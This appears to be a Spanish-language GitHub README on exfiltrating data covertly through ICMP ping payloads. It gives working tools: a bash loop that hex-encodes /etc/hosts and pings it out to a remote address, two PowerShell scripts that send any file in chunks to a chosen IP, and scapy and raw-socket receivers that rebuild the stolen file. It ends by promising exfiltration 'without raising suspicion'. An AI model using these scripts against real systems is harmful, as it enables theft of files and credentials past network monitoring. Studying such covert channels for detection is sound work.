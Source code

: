 # ICMP-Exfil

# 📡 Exfiltración de Datos mediante ICMP

Este documento explora la técnica de exfiltración de datos mediante paquetes ICMP, utilizando herramientas como `tshark`, `ping`, `xxd` y scripts en Python y PowerShell.

---

## 📌 Conversión de Datos a Hexadecimal
![Pasted image 20250119202558](https://github.com/user-attachments/assets/34075ca9-cb8e-4ea8-8be8-e5e4be240440)


Convertimos una cadena de texto en su representación hexadecimal con:

```bash
echo -n "hola mundo" | xxd -p
```

📌 Usamos `-n` para evitar el salto de línea y `-p` para obtener solo la cadena en hexadecimal.

---

## 🛠️ Escucha de Tráfico ICMP con `tshark`

```bash
tshark -i lo -Y "icmp" -T fields -e data.data 2>/dev/null
```

---

## 📡 Envío de Datos mediante `ping`

Ejecutamos un ping con una carga útil en hexadecimal:

```bash
ping -c 1 192.168.1.149 -p 686f6c61206d756e646f
```

📌 El payload se pasa en formato hexadecimal.

---

## 🔄 Decodificación de la Respuesta
![Pasted image 20250119203418](https://github.com/user-attachments/assets/638d4da3-fbb6-41e6-ace4-00f217c24783)

```bash
echo "756e646f686f6c61206d756e646f686f6c61206d..." | xxd -ps -r
```

📌 Se convierte la respuesta hexadecimal de vuelta a texto.

---

## 📦 Fragmentación de Paquetes

Convertimos el contenido de `/etc/hosts` a hexadecimal en fragmentos de 4 bytes:

```bash
cat /etc/hosts | xxd -p -c 4 | while read line; do ping -c1 192.168.1.149 -p $line; done
```

---

## 🤖 Automatización con Python

### `Sniffer.py`

```python
#!/usr/bin/env python3
from scapy.all import *
import signal, sys

def def_handler(sig, frame):
    print("\n[!] Saliendo del Programa")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

def data_parser(packet):
    if packet.haslayer(ICMP) and packet[ICMP].type == 8:
        data = packet[ICMP].load[-4:].decode("utf-8")
        print(data, end='', flush=True)

if __name__ == "__main__":
    sniff(iface="lo", prn=data_parser)
```

---

## ⚡ Ping Funcional con Decodificación

```bash
cat /etc/hosts | xxd -p -c 4 | while read line; do ping -c 1 127.0.0.1 -s 4 -p "$line"; done
```

Capturamos los paquetes:

```bash
tshark -i lo -Y "icmp" -T fields -e data.data > data.txt
```

Decodificamos los datos:

```bash
awk 'NR % 2 == 1' data.txt | xxd -ps -r
```

---

## 🖥️ Script de Exfiltración en PowerShell

### `ICMP-Sender.ps1`

```powershell
$IPAddress = "192.168.20.9"
$ICMPClient = New-Object System.Net.NetworkInformation.Ping
$PingOptions = New-Object System.Net.NetworkInformation.PingOptions
$PingOptions.DontFragment = $true
#$PingOptions.Ttl = 10

# Must be divided into 1472 chunks
[int]$bufSize = 1472
$inFile = "C:\Users\antonio\eHacking_LABS\50\TopSecret.txt"

$stream = [System.IO.File]::OpenRead($inFile)
$chunkNum = 0
$TotalChunks = [math]::floor($stream.Length / 1472)
$barr = New-Object byte[] $bufSize

# Start of Transfer
$sendbytes = ([text.encoding]::ASCII).GetBytes("BOFAwesomefile.txt")
$ICMPClient.Send($IPAddress,10, $sendbytes, $PingOptions) | Out-Null

while ($bytesRead = $stream.Read($barr, 0, $bufsize)) {
    $ICMPClient.Send($IPAddress,10, $barr, $PingOptions) | Out-Null
    $ICMPClient.PingCompleted
    
    # Missing check if transfer is okay, added sleep.
    sleep 1
    # $ICMPClient.SendAsync($IPAddress,60 * 1000, $barr, $PingOptions) | Out-Null
    Write-Output "Done with $chunkNum out of $TotalChunks"
    $chunkNum += 1
}

# End the transfer
$sendbytes = ([text.encoding]::ASCII).GetBytes("EOF")
$ICMPClient.Send($IPAddress,10, $sendbytes, $PingOptions) | Out-Null
$stream.Dispose()
Write-Output "File Transfered"
```
### `ICMP-Sender.ps1` (Con imput de usuario)
```powershell
# --- PARÁMETROS ---
param (
    [Parameter(Mandatory = $true, HelpMessage = "Especifique la dirección IP de destino.")]
    [string]$IPAddress,

    [Parameter(Mandatory = $true, HelpMessage = "Especifique la ruta completa del archivo a exfiltrar.")]
    [string]$inFile
)

# --- VARIABLES ---
$ICMPClient = New-Object System.Net.NetworkInformation.Ping
$PingOptions = New-Object System.Net.NetworkInformation.PingOptions
$PingOptions.DontFragment = $true

[int]$bufSize = 1472

# --- VALIDACIONES ---
if (-not (Test-Path $inFile)) {
    Write-Error "El archivo especificado no existe: $inFile"
    exit 1
}

$stream = [System.IO.File]::OpenRead($inFile)
$chunkNum = 0
$TotalChunks = [math]::floor($stream.Length / $bufSize)
$barr = New-Object byte[] $bufSize

# --- INICIO DE TRANSFERENCIA ---
$sendbytes = ([text.encoding]::ASCII).GetBytes("BOFAwesomefile.txt")
$ICMPClient.Send($IPAddress, 10, $sendbytes, $PingOptions) | Out-Null

while ($bytesRead = $stream.Read($barr, 0, $bufSize)) {
    $ICMPClient.Send($IPAddress, 10, $barr, $PingOptions) | Out-Null
    Start-Sleep -Seconds 1
    Write-Output "Hecho con $chunkNum de $TotalChunks fragmentos."
    $chunkNum++
}

# --- FIN DE TRANSFERENCIA ---
$sendbytes = ([text.encoding]::ASCII).GetBytes("EOF")
$ICMPClient.Send($IPAddress, 10, $sendbytes, $PingOptions) | Out-Null
$stream.Dispose()

Write-Output "Transferencia del archivo completada."
```


---

## 🎯 Recepción de Datos con Python

```python
import socket

def listen():
    s = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_ICMP)
    s.setsockopt(socket.SOL_IP, socket.IP_HDRINCL, 1)
    with open('archivoExfiltrado.txt','wb') as catch:
        print("Iniciado el servidor de exfiltración ICMP...")
        while True:
            data, addr = s.recvfrom(1508)
            if b'BOF' in data:
                continue
            if b'EOF' in data:
                catch.write(data[-1472:-4])
                break
            catch.write(data[-1472:])
    print("Archivo recibido!")

listen()
```

---

## 📷 Capturas de Pantalla

1️- Escuchando paquetes con `tshark`
![Pasted image 20250124171832](https://github.com/user-attachments/assets/877a633e-d0e0-48c4-a576-2b920038049c)

2️- Enviando paquetes ICMP con el script PowerShell
![Pasted image 20250124172451](https://github.com/user-attachments/assets/fb08a12f-a0c7-4196-a140-75a199399e8e)
![Pasted image 20250124172621](https://github.com/user-attachments/assets/760c2279-a543-4a0d-96d6-dd0d50832871)
![Pasted image 20250124172727](https://github.com/user-attachments/assets/939fc008-103b-4f99-957f-f2bd9543c61a)

3️- Recibiendo y reconstruyendo el archivo
![Pasted image 20250124172923](https://github.com/user-attachments/assets/b7b0ac02-bbb3-4397-8a21-a371ad122703)

4️- Archivo exfiltrado correctamente
![Pasted image 20250124173108](https://github.com/user-attachments/assets/5bcbae13-fe90-4196-bc9f-f04c9870ced2)

📌 ¡Listo! Ahora puedes exfiltrar archivos a través de ICMP sin levantar sospechas 🚀
